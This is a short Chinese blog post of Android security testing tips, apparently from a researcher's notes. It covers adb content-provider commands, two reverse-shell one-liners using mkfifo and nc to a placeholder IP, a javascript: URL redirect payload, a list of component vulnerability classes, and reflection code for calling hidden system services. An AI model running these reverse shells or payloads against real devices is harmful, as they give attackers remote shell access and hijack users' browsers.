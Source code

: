 ```yaml
---
title: 小知识
slug: blog/discussion-1/
number: 1
url: https://github.com/CloveIso/notes/discussions/1
date:
  created: 2024-11-19
  updated: 2024-11-21
created: 2024-11-19
updated: 2024-11-21
authors: [Cloveiso]
categories: []
comments: true
---
```


<!-- 小知识 -->
<!-- more -->
1、应用对应的uid  /data/system/packages.list

2、adb操作provider

```
content query --uri content://icc/adn 
content delete --uri content://settings/settings/pointer_speed
content insert --uri content://settings/settings --bind name:s:my_number --bind value:i:2
```

3、android 反弹shell

```
rm /data/local/tmp/f;mkfifo /data/local/tmp/f;cat /data/local/tmp/f|/bin/sh -i 2>&1|nc ip 2222 >/data/local/tmp/f
nc ip 2222|/bin/sh|nc ip 6666
```

4、查看进程状态和uid状态

```
dumpsys activity processes | grep UidRecord -C 2
```

5、协议绕过

javascript://www.baidu.com/%0D%0Awindow.location.href='http://ip/js_poc.html'

6、android漏洞总结

```
1、activity
越权绕过、钓鱼欺诈/Activity劫持、隐式启动Intent包含敏感数据、拒绝服务攻击、intent重定向
2、service
权限提升漏洞、service劫持、消息伪造、拒绝服务攻击
3、broadcast reciver
敏感信息泄漏漏洞、权限绕过漏洞、消息伪造、拒绝服务
4、provider
信息泄露、sql注入、目录遍历

```

7、调用系统服务

```kotlin
try {
    val getServiceMethod = Class.forName("android.os.ServiceManager").getMethod(
        "getService",
        String::class.java
    )
    val binder = getServiceMethod(null, "companiondevice") as IBinder
    val clsStub = Class.forName("android.companion.ICompanionDeviceManager\$Stub")
    val asInterfaceMethod = clsStub.getDeclaredMethod("asInterface", IBinder::class.java)
    val service = asInterfaceMethod(null, binder)
    val clsProxy = Class.forName("IService\$Stub\$Proxy")
    val testMethod = clsProxy.getDeclaredMethod(
        "MethodName", // change the method name
        Float::class.java, Int::class.java, Long::class.java, Long::class.java // method args
    )
    testMethod(service, 10)
} catch (e: Exception) {
    e.printStackTrace()
}
```

8、查看权限等级

```
pm list permissions -f (经常报错)
dumpsys package | grep -F "Permission [android.permission.DEVICE_POWER]" -C 3
```

